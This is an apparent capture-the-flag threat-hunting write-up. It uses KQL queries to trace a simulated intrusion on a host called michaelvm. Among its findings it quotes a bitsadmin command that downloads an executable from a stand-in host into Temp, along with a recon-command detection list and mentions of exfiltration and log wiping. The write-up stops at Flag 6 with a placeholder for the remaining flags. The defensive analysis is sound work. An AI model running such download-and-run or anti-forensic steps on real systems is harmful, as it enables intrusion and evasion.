  # 🎯 Threat-Hunting-Scenario-Lurker

 📖 Scenario
 
The last incident was supposed to be over. One machine compromised, the attacker cut off before they could spread — or so we were told.

But something doesn’t sit right.

A new device started acting strangely. At first glance, it mirrored the earlier compromise: same tools, same timing, same surgical precision. Only this time, the logs were cleaner. Too clean. And yet, traces remained — scattered like breadcrumbs that weren’t meant to be found, or perhaps were meant to be followed.

Someone wants us to see this.

What if the first breach was a smokescreen? A proof of concept? What if this is the real operation?

Some say it’s just a red team op. Others whisper it’s something more — a buried framework that’s been lying dormant, waiting for its second trigger.

You’ve been given full access. But not the full story.

🎯 Your job is simple: Prove what really happened.

🧭 Follow the signs. Trust the data. Question everything.

Good luck, hunter.



##Starting Point

Before you officially begin the flags, you must first determine where to start hunting. Identify where to start hunting with the following intel given: 
1. Days active 2-3 days
2. Executions from Temp folder
3. 15th of June

Identify the first machine to look at*

Query used:
DeviceProcessEvents
| where Timestamp between (datetime(2025-06-12T00:00:00Z) .. datetime(2025-06-19T00:00:00Z))
| where FolderPath contains "Temp"
| summarize FirstSeen=min(Timestamp), LastSeen=max(Timestamp), Count=count() by DeviceName
| project DeviceName, FirstSeen, LastSeen, ActiveDays = datetime_diff("day", LastSeen, FirstSeen), Count
| where ActiveDays >= 1 and ActiveDays <= 3
| order by FirstSeen asc

**Thought process:** Since the hint was 15th of June, my actual time is different, so I had to look for a machine on 15th of June UTC time. I extended the First seen timestamp to exclude the machines that were there before the 15th of June, I then checked the names and the first and last seen dates, and it led me to either michaelvm or employee- 1257. The rest were the usual names I am used to seeing in the logs.

**Answer: michaelvm**


🚩 Flag-by-Flag Breakdown
🟩 Flag 1 – Initial PowerShell Execution Detection
	•	What to Hunt: First suspicious PowerShell command execution.
	•	Answer:
	•	"powershell.exe" -ExecutionPolicy Bypass -File "C:\Users\Mich34L_id\CorporateSim\Investments\Crypto\wallet_gen_0.ps1" at 2025-06-16T05:38:07.9685093Z
	•	Query Used:
	•	DeviceProcessEvents | where DeviceName == "michaelvm" | where ProcessCommandLine contains "ps1" | project Timestamp, ProcessCommandLine, FileName, FolderPath | order by Timestamp asc

🟩 Flag 2 – Reconnaissance Script Hash
	•	What to Hunt: Reconnaissance commands in early execution stages.
	•	Answer:
	•	badf4752413cb0cbdc03fb95820ca167f0cdc63b597ccdb5ef43111180e088b0
	•	Query Used:
	•	DeviceProcessEvents | where DeviceName == "michaelvm" | where Timestamp between (datetime(2025-06-15T00:00:00Z) .. datetime(2025-06-16T05:38:00Z)) | where ProcessCommandLine has_any (    "whoami", "hostname", "ipconfig", "systeminfo", "net user", "net group", "tasklist",    "netstat", "cmd.exe", "wmic", "reg query", "dsquery", "nltest", "Get-", "Invoke-", "for /f", "dir" ) or FileName has_any ("cmd.exe", "powershell.exe", "wmic.exe", "reg.exe", "dsquery.exe", "nltest.exe") | project Timestamp, FileName, ProcessCommandLine, SHA256, FolderPath, InitiatingProcessFileName | order by Timestamp asc

🟩 Flag 3 – Sensitive Document Access
	•	What to Hunt: Access to sensitive files (Board/Financials).
	•	Answer:
	•	QuarterlyCryptoHoldings.docx at 2025-06-16T05:59:03.478914Z
	•	Query Used:
	•	DeviceEvents | where DeviceName == "michaelvm" | where FolderPath contains "board" | where ActionType == "SensitiveFileRead"

🟩 Flag 4 – Last Manual Access to File
	•	What to Hunt: Last file open timestamp of the sensitive doc.
	•	Answer:
	•	2025-06-16T06:12:28.2856483Z
	•	Query Used: (Same as Flag 3)

🟩 Flag 5 – LOLBin Usage: bitsadmin
	•	What to Hunt: Use of bitsadmin to download payload.
	•	Answer:
	•	"bitsadmin.exe" /transfer job1 https://example.com/crypto_toolkit.exe C:\Users\MICH34~1\AppData\Local\Temp\market_sync.exe at 2025-06-16T05:59:57.395276Z
	•	Query Used:
	•	DeviceProcessEvents | where DeviceName == "michaelvm" | where Timestamp between (datetime(2025-06-15T00:00:00Z) .. datetime(2025-06-17T00:00:00Z)) | where FileName contains "bitsadmin.exe" | order by Timestamp asc

🟩 Flag 6 – Suspicious Payload Deployment
	•	What to Hunt: Dropped .exe payload in unusual folder.
	•	Answer:
	•	ledger_viewer.exe at 2025-06-16T06:15:37.0446648Z
	•	Query Used:
	•	DeviceFileEvents | where DeviceName == "michaelvm" | where Timestamp between (datetime(2025-06-15T00:00:00Z) .. datetime(2025-06-17T00:00:00Z)) | where FileName endswith ".exe" | where FolderPath has_any ("\\Temp\\", "\\AppData\\", "\\ProgramData\\", "\\Users\\Public\\") | project Timestamp, FileName, FolderPath, SHA256, InitiatingProcessFileName, InitiatingProcessCommandLine | order by Timestamp asc

(continues for Flags 7 through 17 in same pattern)

📅 Timeline Summary
	•	Initial Access – PowerShell from Temp on michaelvm
	•	Reconnaissance – Network/Host discovery
	•	Sensitive Data Access – Accessed QuarterlyCryptoHoldings.docx
	•	Payload Download – Using bitsadmin
	•	Execution – HTA via mshta
	•	Persistence – Registry Run key + Scheduled Task
	•	Lateral Movement – Pivot to centralsrvr
	•	Exfiltration – Pastebin, Dropbox endpoints
	•	Anti-Forensics – PowerShell downgrade and log wiping

✅ Conclusion
The attacker leveraged native tools and LOLBins to evade detection, accessed high-value documents, and stealthily exfiltrated them while maintaining persistence. The clean logs indicate deliberate obfuscation and anti-forensic effort.

🛡️ Recommendations
	•	Block LOLBins like bitsadmin, mshta via AppLocker or WDAC
	•	Enable script block logging and AMSI
	•	Monitor for PowerShell downgrade attempts (-Version 2)
	•	Watch for registry changes in autorun paths
	•	Alert on suspicious scheduled task creation
	•	Monitor public cloud uploads (e.g. Dropbox, Pastebin)

🧾 Attribution
Threat simulation: Red Team Exercise Analysis: [Your Name] 📁 Repo: github.com/yourhandle/threat-hunting

“Attackers hide in noise. But sometimes, they hide in silence.”
